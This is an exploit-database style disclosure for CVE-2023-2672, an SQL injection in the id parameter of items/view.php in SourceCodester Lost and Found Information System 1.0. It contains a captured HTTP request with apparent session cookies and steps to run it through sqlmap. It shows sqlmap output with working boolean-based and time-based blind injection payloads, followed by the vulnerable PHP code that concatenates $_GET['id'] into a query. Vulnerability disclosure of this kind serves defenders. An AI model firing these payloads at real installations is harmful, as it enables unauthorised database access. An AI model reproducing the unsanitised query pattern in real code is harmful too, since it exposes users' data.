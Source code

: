 # Exploit Title: SOURCECODESTER LOST AND FOUND INFORMATION SYSTEM 1.0 GET PARAMETER ITEMS/VIEW.PHP ID SQL INJECTION

A vulnerability classified as critical was found in SourceCodester Lost and Found Information System 1.0. Affected by this vulnerability is an unknown functionality of the file items/view.php of the component GET Parameter Handler. The manipulation of the argument id leads to sql injection

### Date: 
> 12 May 2023

### ID: CVE-2023-2672
### Author: 
> tht1997
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [LOST AND FOUND INFORMATION SYSTEM](https://www.sourcecodester.com/php/16525/lost-and-found-information-system-using-php-and-mysql-db-source-code-free-download.html)
### Version:
> v 1.0

# Tested On: Windows 10, XAMPP

### Affected Page:
> items/view.php


### Description:
> A vulnerability classified as critical has been found in SourceCodester Lost and Found Information System 1.0. Affected is some unknown functionality of the file items/view.php of the component GET Parameter Handler. The manipulation of the argument id with an unknown input leads to a sql injection vulnerability. CWE is classifying the issue as CWE-89. The software constructs all or part of an SQL command using externally-influenced input from an upstream component, but it does not neutralize or incorrectly neutralizes special elements that could modify the intended SQL command when it is sent to a downstream component. This is going to have an impact on confidentiality, integrity, and availability.
### Proof of Concept:
> Following steps are involved:
1. Visit the vulnerable page: /php-lfis/?page=items/view&id=ID
2. Copy request to a txt file and run with SQLmap
Request
```
GET /php-lfis/?page=items/view&id=5 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost/php-lfis/?page=items
Cookie: remember_me_name=bMGFrQaFzDhuoLmztZCT; remember_me_pwd=YMSm3Q2wFDHaHLQ5eZPKc42oU7CaK8IlA%40q1; remember_me_lang=en; Hm_lvt_c790ac2bdc2f385757ecd0183206108d=1680329430; Hm_lvt_5320b69f4f1caa9328dfada73c8e6a75=1680329567; PowerBB_username=xss; PowerBB_password=8879f85d0170cba2a4328bbb5a457c6a; menu_contracted=false; __atuvc=1%7C16; PHPSESSID=kt5sfckl2e0fle94p3bdha9n45
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

```

3. Result
```
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] Y
sqlmap identified the following injection point(s) with a total of 267 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: page=items/view&id=5' AND 4609=4609 AND 'TRVZ'='TRVZ

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=items/view&id=5' AND (SELECT 7077 FROM (SELECT(SLEEP(5)))LibZ) AND 'LFUd'='LFUd
---
```
4. CODE VULNERABLE
```
<?php
if(isset($_GET['id']) && $_GET['id'] > 0){
    $qry = $conn->query("SELECT *, COALESCE((SELECT `name` FROM `category_list` where `category_list`.`id` = `item_list`. `category_id` ) ,'N/A') as `category` from `item_list` where id = '{$_GET['id']}' ");
    if($qry->num_rows > 0){
        foreach($qry->fetch_assoc() as $k => $v){
            $$k=$v;
        }
    }else{
		echo '<script>alert("item ID is not valid."); location.replace("./?page=items")</script>';
	}
}else{
	echo '<script>alert("item ID is Required."); location.replace("./?page=items")</script>';
}
```

